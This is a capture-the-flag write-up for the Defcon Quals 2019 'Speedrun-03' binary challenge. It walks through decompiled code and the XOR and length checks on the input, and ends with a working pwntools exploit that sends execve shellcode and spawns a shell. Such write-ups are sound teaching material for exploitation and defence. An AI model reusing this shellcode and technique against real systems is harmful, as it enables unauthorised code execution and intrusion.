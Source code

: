 # Defcon Quals 2019 Speedrun---03

First let's take a look at the binary:
```
$    pwn checksec speedrun
[*] '/Hackery/defcon/s3/speedrun'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
$    file speedrun
speedrun: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=6169e4b9b9e1600c79683474c0488c8319fc90cb, not stripped
$    ./speedrun
Think you can drift?
Send me your drift
19535728
You're not ready.
```

So we can see that it has all of the standard binary mitiations, and that it is a 64 bit elf that prompts us for input. When we look at the main function in Ghidra, we see this:

```
undefined8 main(void)

{
  char *pcVar1;
 
  setvbuf(stdout,(char *)0x0,2,0);
  pcVar1 = getenv("DEBUG");
  if (pcVar1 == (char *)0x0) {
    alarm(5);
  }
  say_hello();
  get_that_shellcode();
  return 0;
}
```

Looking through the functions, the one of interest to us is `get_that_shellcode()`:

```
void get_that_shellcode(void)

{
  char xor0;
  char xor1;
  ssize_t bytesRead;
  size_t len;
  char *nopCheck;
  long in_FS_OFFSET;
  char input [15];
  undefined auStack41 [15];
  undefined local_1a;
  long stackCanary;
 
  stackCanary = *(long *)(in_FS_OFFSET + 0x28);
  puts("Send me your drift");
  bytesRead = read(0,input,0x1e);
  local_1a = 0;
  if ((int)bytesRead == 0x1e) {
    len = strlen(input);
    if (len == 0x1e) {
      nopCheck = strchr(input,0x90);
      if (nopCheck == (char *)0x0) {
        xor0 = xor(input,0xf);
        xor1 = xor(auStack41,0xf);
        if (xor0 == xor1) {
          shellcode_it(input,0x1e);
        }
        else {
          puts("This is a special race, come back with better.");
        }
      }
      else {
        puts("Sleeping on the job, you\'re not ready.");
      }
    }
    else {
      puts("You\'re not up to regulation.");
    }
  }
  else {
    puts("You\'re not ready.");
  }
  if (stackCanary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Here we can see it scans in `0x1e` bytes worth of input into `buf`, which then `strlen` is called on it. If the output of strlen is `30` then we can proceed. It also checks for NOPS (opcode `0x90`) in our input with `strchr`. Then runs the first half and second half of our input through the `xor` function, and checks to see if the results are the same. The `xor` function just goes through and xors the first `x` number of bytes it has been given, where `x` is the second argument and returns the output as a single byte:

```
ulong xor(long lParm1,uint uParm2)

{
  byte x;
  uint i;
 
  x = 0;
  i = 0;
  while (i < uParm2) {
    x = x ^ *(byte *)(lParm1 + (ulong)i);
    i = i + 1;
  }
  return (ulong)x;
}
```

So in order for our shellcode to run, the first half of our shellcode when all the bytes are xored together must be equal to the second half of the shellcode xored together. Then if it passes that check, our input is ran as shellcode in the `shellcode_it` function:

```
void shellcode_it(void *pvParm1,uint uParm2)

{
  undefined *shellcode;
 
  shellcode = (undefined *)mmap((void *)0x0,(ulong)uParm2,7,0x22,-1,0);
  memcpy(shellcode,pvParm1,(ulong)uParm2);
  (*(code *)shellcode)();
  return;
}
```

So in order to get a shell, we will just need to send it a `30` byte shellcode with no null bytes (because that would interfere with the `strlen` call), and the first half of the shellcode xored together will be equal to the second half of the shellcode xored together. For this I used a 24 byte shellcode that I have used previously (the one from: https://teamrocketist.github.io/2017/09/18/Pwn-CSAW-Pilot/ ), while padding the end with `6` bytes worth of data to pass the length check. I then edited the last byte to pass the xor check by doing some simple xor math. Also I didn't have to worry too much about what instructions the opcodes mapped to, since the would be executed after the syscall which is when we get the shell.

To figure out what specific byte at the end, we can do that with a bit of python math. First xor the first part by itself to figure out what we need to get the right side equal to:

```
>>> part0 = "\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf"
>>> len(part0)
15
>>> x = 0
>>> for i in part0:
...     x = x ^ ord(i)
...
>>> hex(x)
'0x2f'
>>>
```

So we can see that the xor must equal `0x2f`. Let's see what the other half of the xor will be if we append 4 `\x50`s to the end:

```
>>> part1 = "\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"
>>> part1 += "\x50"*5
>>> len(part1)
14
>>> x = 0
>>> for i in part1:
...     x = x ^ ord(i)
...
>>> hex(x)
'0x28'
```

To figure out what the missing byte is, we can just xor `0x28` and `0x2f` together:

```
>>> 0x28 ^ 0x2f
7
```

With that, we can see that the final byte of the second part will need to be `7` to pass the checks. Putting it all together, we get the following exploit:

```
from pwn import *

# Establish the target process
target = process('./speedrun-003')
#gdb.attach(target, gdbscript = 'pie b *0xac7')
#gdb.attach(target, gdbscript = 'pie b *0xaa3')
#gdb.attach(target, gdbscript = 'pie b *0x982')
#gdb.attach(target, gdbscript = 'pie b *0x9f7')

# The main portion of the shellcode
shellcode = "\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"


# Pad the shellcode to meet the length / xor requirements
#shellcode = "\x50"*3 + shellcode + "\x50"*2 + "\x07"
shellcode = shellcode + "\x50"*5 + "\x07"

# Send the shellcode and then drop to an interactive shell
target.send(shellcode)
target.interactive()
```

When we run it:
```
$ python exploit.py
[+] Starting local process './speedrun-003': pid 5605
[*] Switching to interactive mode
Think you can drift?
Send me your drift
$ w
 00:58:37 up 21 min,  1 user,  load average: 0.39, 0.62, 0.57
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               00:40   ?xdm?   1:32   0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
$ ls
exploit.py  readme.md  speedrun-003
```

Just like that, we solved the challenge!